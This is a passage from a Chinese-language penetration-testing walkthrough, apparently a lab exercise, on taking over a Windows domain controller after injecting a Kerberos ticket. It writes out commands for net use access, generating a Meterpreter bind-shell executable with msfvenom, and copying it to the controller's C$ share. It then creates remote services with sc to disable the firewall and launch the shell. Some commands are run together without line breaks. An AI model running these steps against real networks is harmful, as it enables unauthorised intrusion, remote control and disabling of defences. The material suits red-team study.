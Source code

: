 如上图，票据注入成功。

查看注入是否成功`klist`：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxBpMHUeu6SY9icZKYFibSZGRZ0ibXWZ35Y5M4micXwrpFaeVrN6GmuqBlqQ/640?wx_fmt=png)

尝试 net use 登录域控：

```
net use \\WIN-ENS2VR5TR3N
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxM2bddAEu89wU94bIBukkXjicpbpw0yZh9eub4sahr1EkzfZ3iaZBR45Q/640?wx_fmt=png)image-20200727131745970

如上图，成功登录域控并列出了域控的 c 盘目录。此时要想控制域控我们还要在 Windows 7 上面上传一个**正向**的 msf 马。

```
msfvenom -p windows/meterpreter/bind_tcp lhost=192.168.0.108 lport=4444 -f exe -o bind.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxOyQDthMxBSDkoReWub6f3fcyh01fNgib8FVBEy2icwQWQ3qRGkoMyURw/640?wx_fmt=png)image-20200727135114886

将生产的 msf 上传到 Windows 7 上，然后用 smb 文件共享将 msf 马 copy 到域控的 C 盘：

```
copy c:\windows\system32\bind.exe \\WIN-ENS2VR5TR3N\c$
```

复制成功：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxnNdyGvaqRFVUNnJyK3Ra8ooXzn6lxy4zv7k1Uf00hLK4eT41LfflGw/640?wx_fmt=png)image-20200727135631280

通过远程在域控上面设置好计划任务：

```
schtasks /create /tn "test" /tr C:\windows\system32\bind.exe /sc MINUTE /S 192.168.183.130
```

显示 Access is denied：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxURuDN6rCJkWibO51fUVfkmReJdgeTYxUuQqdkRLf5RgiaVjq9RY8iaXYQ/640?wx_fmt=png)image-20200727130719339

我们用 sc 服务来远程执行。

关闭防火墙：

```
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off"sc \\WIN-ENS2VR5TR3N start unablefirewall
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxm7pxuY2oFpiaC5rg0jGk2QJzTibutHUumFHZYRaqyWCZiajGSNfBA161g/640?wx_fmt=png)image-20200727141352311

创建服务执行 msf 马（msf 正在监听）：

```
sc \\WIN-ENS2VR5TR3N create bindshell binpath= "c:\bind.exe"sc \\WIN-ENS2VR5TR3N start bindshell
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxPXqvH6ibPcQvOptPsrHMAlFEicY6bGQ4bU42cpDyhVPxIkBz5RWN66ag/640?wx_fmt=png)image-20200727142350771
